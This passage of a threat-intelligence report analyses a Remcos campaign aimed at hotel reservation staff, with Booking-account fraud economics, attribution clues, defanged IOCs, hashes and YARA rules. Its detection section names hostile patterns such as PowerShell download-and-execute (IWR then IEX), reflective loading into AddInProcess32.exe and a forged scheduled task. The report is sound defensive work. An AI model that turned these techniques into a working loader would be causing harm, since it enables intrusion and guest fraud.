According to Sekoia, infostealer logs are traded between 5 and 5,000 dollars depending on exclusivity, freshness, geolocation and volume of authentication data. In the specific case of Booking, the value of a log also varies according to the number of establishments administered by the account, the volume of active reservations and the partner's Genius tier. An access that manages multiple hotels in a developed country, with many active reservations, can be advertised for thousands of dollars.

The value chain is divided. Databases of hotel administrator contacts are sold in bulk starting at tens of dollars, and lists segmented by country or hotel category are charged per address at higher rates. Malware distribution is selectively outsourced to traffers, remunerated by a percentage of the profit. Final monetization occurs against the guests, contacted by WhatsApp or email with real data from their reservation and induced to "reconfirm" banking details on a fake page.

The actor known as moderator_booking advertised on Exploit.in, LolzTeam and WWHClub the purchase of Booking logs between 30 and 5,000 dollars, claiming to collaborate with a team that would have earned more than 20 million dollars in this field.

Access to the reservations machine serves this model for three reasons. Extranet session cookies bypass MFA and allow talking to the guest through the platform's legitimate channel. Payment data may transit through that machine or on the network to which it is connected.

#### Convergences and divergences

Sekoia describes the loader of the PureRAT campaign loading the payload into memory through reflective loading, using `AddInProcess32.exe` as the host, so that the malware never exists on disk. The campaign analyzed here uses exactly the same technique and the same target process.

This does not constitute attribution. `AddInProcess32.exe` is a known LOLBin, abused by multiple families, and NewPE2 is a public tool.

The divergences remain substantial:

The execution vector is not ClickFix, but rather VBS with a double extension.

The payload is Remcos, whereas, in Sekoia's case, it is PureRAT.

The scripts of the initial stages are written in Portuguese, whereas the ecosystem described by Sekoia is in Russian. It is worth noting, however, that Sekoia itself assesses that the actors specialized in hospitality phishing are few and probably organized into closed communities, with traffers of that niche uncommon on open forums.

The operator may be an independent traffer operating within the described ecosystem, a hypothesis that the outsourcing model itself admits, since whoever distributes does not need to be the one who monetizes nor share the language or tooling with the buyers. Or it may be an independent operation that arrived at the same target through the same economic logic, adopting a publicly known LOLBin out of convenience.

## Impact

Previous reports establish that the objective of this type of campaign is not the hotel's infrastructure itself, but the credentials for accessing the reservation platform. In possession of them, the attacker resells the access or contacts the guests directly, using real reservation data to charge a second time for stays already paid for. The hotel functions as a means: the one who suffers the financial loss is the customer, and the establishment bears the reputational damage of a fraud that appears to have come from it.

## Conclusion

The campaign demonstrates an operator who reuses infrastructure and tooling while varying the pretext. In July, an email directed at the reservations mailbox of a hotel chain, in Spanish. In August, a file with a WhatsApp PDF name, whose delivery vector and target audience were not identified; the only constant element is the backend.

For the hospitality sector, the only confirmed target, the conventional recommendation of antiphishing training has limited reach. A reservations mailbox exists to receive links from strangers, and the pretext used does not ask the recipient to do anything outside their normal work. The effort pays off more in controls that do not depend on the user's judgment: blocking VBS and JS execution by policy, visibility over double extensions at the email gateway, and MFA with short sessions on the reservation platforms, since the documented objective of this type of campaign is the extranet session cookie.

The chain is mostly fileless, which limits what disk-based antimalware can see. Detection depends on command-line telemetry, PowerShell script block logging, and monitoring of anomalies in the Task Scheduler.

Finally, the linguistic markers point to Lusophone authorship. With moderate confidence, this is a Brazilian operator, based on:
- "minhadede" in the C2 domain
- In the "forma.txt" script, he uses Brazilian terms different from European Portuguese such as "usuário", whereas there it is normally [referred to](https://pt.meta.stackoverflow.com/questions/1670/utilizar-utilizadores-em-vez-de-usu%C3%A1rios) as "utilizador"
- In the deobfuscated script of the controle-de-pais.ps1 file he uses the term "arquivo", whereas in European Portuguese "ficheiro" is more commonly used





It is worth emphasizing that, based on the code and the comments in the scripts, it is possible that they were generated with LLM assistance on the operator's part.

In any case, the operator's language does not match that of the only confirmed target (Spanish), which reinforces that code origin and victim geography are independent variables.

# Detection opportunities
- IOC-based
	- **Scheduled tasks.** Event 4698 with a name starting with `OneDrive Reporting Task-`. The SID in the name is fixed (`S-1-5-21-2570289620-3791926121-1501765468-1001`) and does not correspond to the machine's real SID. Comparing the two exposes the forgery with no false positives.
	- **Network.** Requests to `/rem/REM_*.txt`, and connections to `minhadede[.]ddns[.]net:2403`.
	- **Files.** Creation in `C:\Users\Public` of files matching the `REM_*.txt` pattern.
	- **Host.** Mutex starting with `Rmc-`.
- TTP-based
	- **Host**. `werfault.exe` process running outside `C:\Windows\System32`.
	- **PowerShell.** ScriptBlock Logging (4104) with the marker `@@@_@@@_@@@_@@@`, or with `[ScriptBlock]::Create` combined with `Invoke-WebRequest`. The `IWR` followed by `IEX` pattern in the command line of a scheduled task is anomalous in itself.
	- **Processes.** `AddInProcess32.exe` with `powershell.exe` or `cmd.exe` as the parent process. In legitimate use the parent is the .NET runtime, never a shell.

## Network IOCs

| Type        | Value                                           |
| ----------- | ----------------------------------------------- |
| Domain      | `royal-caribbean[.]agency`                      |
| Domain      | `informacionescdt2030[.]com`                    |
| C2          | `minhadede[.]ddns[.]net:2403` (TLS)             |
| Redirector  | `graciela313.wixsite[.]com/so/51PzhnDv5/c`      |
| URL         | `royal-caribbean[.]agency/forma.txt`            |
| URL         | `royal-caribbean[.]agency/nucleo.txt`           |
| URL         | `informacionescdt2030[.]com/nucleo.txt`         |
| URL         | `royal-caribbean[.]agency/controle-de-pais.pdf` |
| URL         | `royal-caribbean[.]agency/rem/REM_*.txt`        |
| URL         | `royal-caribbean[.]agency/colombia`             |
| URL         | `royal-caribbean[.]agency/conta/counter.php`    |


## Files: August campaign

|File|SHA256|
|---|---|
|`WhatsApp Image-2026-08-01 at PM_8167677672.pdf`|`f56f35f98bf8598a8451619005167a74baab56d3095eaf4e73421b4c16d8a788`|
|`forma.txt`|`9963125358cb3b3f3f2aff5298c4637e557b3ea0bb69309fb70b01d6fb546582`|
|`controle-de-pais.zip`|`6773a848c918d657b7811bc788fc28913de8b20a941f322d29c243a63410ff4a`|
|`controle-de-pais.bat`|`122bca4cedd68672efe4ce3142a8527a4991d570d2c1a84149daafee98b13820`|
|`controle-de-pais.ps1`|`7361e763d848fb9a227da589257f038240d995e42a944c63e9c6508d783f3719`|

## Files: modular components

|File|SHA256|
|---|---|
|`REM_xx.txt`|`79891821778c4ca9358c27e7fb66b0442a2921b661df1293e398b18d81da5d96`|
|`REM_type.txt`|`510760f4c6f7fb3b5b332cd7d3a2f674235b0f58d77dbc3972adaf682a168136`|
|`REM_runpe.txt`|`d7fae721570c9ac29543def534f2b8bcaab602e78bde187855e97ca100abb799`|
|`REM_msg.txt`|`2f524be33b23c87bba8576b063310bf90c722c21db1df5b2b0128dc87d0a7838`|
|`REM_method.txt`|`675f06af4e7f254d55ac605bbd7da45d9e00207a97f8a8ab7bb747d512776bc7`|
|`REM_load.txt`|`8a6bdb6b18da586fe7f2acbd8f1055533f2cd97a3681b3652bcd712224df45c3`|
|`REM_invoke.txt`|`90092e5fb861dd4ff34fa20f4b31ca44ebbb3bc367a8d7a35b89a7f89c793fa9`|
|`REM_Framework.txt`|`c604b8435be144ba5c0c96532c0de6f7709367c61664e904b7e8e40c7a769cdc`|
|`REM_Execute.txt`|`67642e56281bc4aa846689bc725f8fcc76e61c20831aa4f7e2e0c8cdba17e520`|

## Files: July campaign

|File|SHA256|
|---|---|
|`Copia de la tarjeta de crédito ... XLSX.pdf`|`57001140778d73ae007e0844b73c8790d5965cb2e71d74d6427402d6af1c644c`|
|`Detalles de la reserva – Octubre 2026 ... XLSX.VBS`|`d6881adfee26d06418e8434efc8f0e2fcfca0a05c2f750da427a542ea6b2764c`|

## Extracted artifacts

|Artifact|SHA256|
|---|---|
|NewPE2 (injector, from `REM_runpe.txt`)|`a550a06a66009040462411867fce966b24499290d08bac8b3596f715cd5c6596`|
|Remcos 7.2.6 Pro (from `REM_msg.txt`)|`5cea02742c28b8d14b12e874739940d556349886e39e0dbcc5e27d0c65124191`|

## Host

|Type|Value|
|---|---|
|Mutex|`Rmc-GFZ***`|
|Scheduled task|`OneDrive Reporting Task-S-1-5-21-2570289620-3791926121-1501765468-1001`|
|Obfuscation marker|`@@@_@@@_@@@_@@@`|
|Directory|`C:\Users\Public`|
|Target process|`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\AddInProcess32.exe`|

# YARA rules


Rule for detecting the PowerShell stage:

```yara
rule Remcos_Campaign_PowerShell_Loader
{
    meta:
        author = "Nikolas Jensen"
        description = "PowerShell loader stages of campaign delivering Remcos 7.2.6 Pro"
        date = "2026-08-18"
        reference = "https://nikkj.github.io/"
    strings:
        $marker = "@@@_@@@_@@@_@@@" ascii wide
        $decoder_func = "Get-DecodedBinaryCommand" ascii wide
        $host_exclusion = "Adobe Reader Document PDF" ascii wide
    condition:
        filesize < 500KB and
        (
            $marker or
            ($decoder_func and $host_exclusion)
        )
}
```

Rule for detecting the Remcos executable:

```yara
import "pe"

rule Remcos_726_Pro_Campaign
{
    meta:
        author = "Nikolas Jensen"
        description = "Remcos 7.2.6 Pro payload from PT-BR controle-de-pais campaign"
        date = "2026-08-18"
        reference = "https://nikkj.github.io/"
    strings:
        $version = "7.2.6 Pro" ascii
        $vendor = "BreakingSecurity.net" ascii
        $agent = "Remcos Agent initialized" ascii
        $settings = "SETTINGS" ascii
        $folder_ptbr = "Capturas de tela" ascii
    condition:
        uint16(0) == 0x5A4D and
        (
            ($folder_ptbr and 2 of ($version, $vendor, $agent)) or
            (3 of ($version, $vendor, $agent, $settings) and pe.number_of_resources > 0)
        )
}
```

# LLM usage

I used an LLM to assist in the analysis of this campaign, mainly to determine the use of decompiled functions in Ghidra, deobfuscate the PowerShell scripts and format data for the report. It was used as a tool, not a brain.
